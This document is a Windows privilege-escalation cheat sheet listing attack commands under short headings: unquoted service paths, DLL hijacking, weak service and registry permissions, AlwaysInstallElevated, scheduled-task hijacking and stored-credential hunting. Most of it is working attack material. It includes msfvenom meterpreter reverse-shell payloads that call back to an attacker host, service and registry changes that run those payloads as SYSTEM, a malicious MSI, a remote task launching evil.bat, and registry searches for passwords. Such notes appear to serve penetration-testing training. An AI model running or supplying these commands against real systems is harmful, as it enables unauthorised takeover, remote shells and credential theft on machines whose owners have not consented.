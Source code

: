 Get OS Version and Patch Level

     systeminfo | findstr /B /C:"OS Name" /C:"OS Version"
     wmic qfe get Caption,Description,HotFixID,InstalledOn

Find Unquoted Service Paths

     wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr /i /v """

     Service Path Hijack

     msfvenom -p windows/meterpreter/reverse_https -e x86/shikata_ga_nai LHOST=$ip LPORT=443 -f exe -o Privatefirewall.exe
     sc stop PFNet
     sc start PFNet

Find Weak File and Folder Permissions per drive

     accesschk.exe -uwdqs "Authenticated Users" c:\
     accesschk.exe -uwqs Users c:\*.*
     accesschk.exe -uwqs "Authenticated Users" c:\*.*

     Modify Service Binary

     msfvenom -p windows/meterpreter/reverse_https -e x86/shikata_ga_nai LHOST=$ip LPORT=443 -f exe -o Privatefirewall.exe

     DLL Hijacking – non-default directories in C: give write access to authenticated users
     msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=$ip LPORT=8989 -f dll > hijackable.dll
     cp dll into directory
     shutdown /r /t 0

     Windows (32 bit) first searches for "known DLLs", such as Kernel32.dll and User32.dll, then it searches:
1 - The directory from which the application loaded
2 - 32-bit System directory (C:\Windows\System32)
3 - 16-bit System directory (C:\Windows\System)
4 - Windows directory (C:\Windows)
5 - The current working directory (CWD)
6 - Directories in the PATH environment variable (system then user)

Find Weak Service Permissions

     accesschk.exe -uwcqv "testuser" * /accepteula
     accesschk.exe –uwcqv “Authenticated Users” *

     Modify Service BinPath

     Accesschk.exe –ucqv <service-name>
     sc qc <service-name>
     msfvenom -p windows/meterpreter/reverse_https -e x86/shikata_ga_nai LHOST=$ip LPORT=443 -f exe -o new-service.exe
     sc config PFNET binpath= "new-service.exe"
     sc stop PFNET
     sc start PFNET

     SERVICE_CHANGE_CONFIG Can reconfigure service binary
     WRITE_DAC Can reconfigure permissions à SERVICE_CHANGE_CONFIG
     WRITE_OWNER Can become owner à reconfigure permissions
     GENERIC_WRITE Inherits SERVICE_CHANGE_CONFIG
     GENERIC_ALL Inherits SERVICE_CHANGE_CONFIG

Find Weak Registry Keys Permissions

     subinacl.exe /keyreg "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Vulnerable Service" /display
     https://www.microsoft.com/en-us/download/details.aspx?id=23510

     Modify Registry Key
     msfvenom -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai LHOST=$ip LPORT=443 -f exe -o Payload.exe
     reg add "HKEY_LOCAL_MACHINE\SYSTEM\ControlSet001\Services\Vulnerable Service" /t REG_EXPAND_SZ /v ImagePath /d      "C:\Users\testuser\AppData\Local\Temp\Payload.exe" /f
     shutdown /r /t 0

Find AlwaysInstallElevated Registry Keys (both reg values must be 1)
     reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
     reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

     AlwaysInstallElevated - allows users of any privilege level to install *.msi files as NT AUTHORITY\SYSTEM
     msfvenom -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai LHOST=$ip LPORT=443 -f exe -o Payload.exe
     msfvenom -f msi-nouac -p windows/exec cmd="C:\Users\testuser\AppData\Local\Temp\Payload.exe" > malicious.msi
     upload payload and msi
     use exploit/multi/handler
     msiexec /quiet /qn /i malicious.msi

Find Scheduled Tasks

     schtasks /query /fo LIST /v
     accesschk.exe -dqv "E:\GrabLogs"

     Task Hijacking

     Look for tasks running under SYSTEM
     msfvenom -p windows/meterpreter/reverse_https -e x86/shikata_ga_nai LHOST=$ip LPORT=443 -f exe -o Privatefirewall.exe
     Overwrite executable

Create Local Task (must be Local Admin on 2000, XP, 2003)
     msfvenom -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai LHOST=$ip LPORT=443 -f exe -o Payload.exe
     net start "Task Scheduler"
     time
     start handler
     at 06:42 /interactive "C:\Payload.exe"
     schtasks /create /tn newtask /s bob /u john /p password /sc once /st 18:51 /tr "C:\Payload.exe"

Create Remote Task
     net use \\$ip /user:DOMAIN\username password
     net time \\$ip
     at \\$ip 13:20 c:\temp\evil.bat

Find Stored Credentials

     dir /s *pass* == *cred* == *vnc* == *.config*
     reg query HKLM /f password /t REG_SZ /s
     reg query HKCU /f password /t REG_SZ /s
     dir c:\*vnc.ini /s /b /c
     dir c:\*ultravnc.ini /s /b /c
     dir c:\ /s /b /c | findstr /si *vnc.ini
     findstr /si password *.txt | *.xml | *.ini
     findstr /si pass *.txt | *.xml | *.ini

     Unattended Installs

     Look for sysprep.inf, sysprep.xml, Unattended.xml
     C:\Windows\Panther\
     C:\Windows\Panther\Unattend\
     C:\Windows\System32\
     C:\Windows\System32\sysprep\

Accessibility
     sethc.exe          Shift x 5
     utilman.exe      Windows + C

Automated Scripts
     PowerUp
     Windows Privesc Check 2.0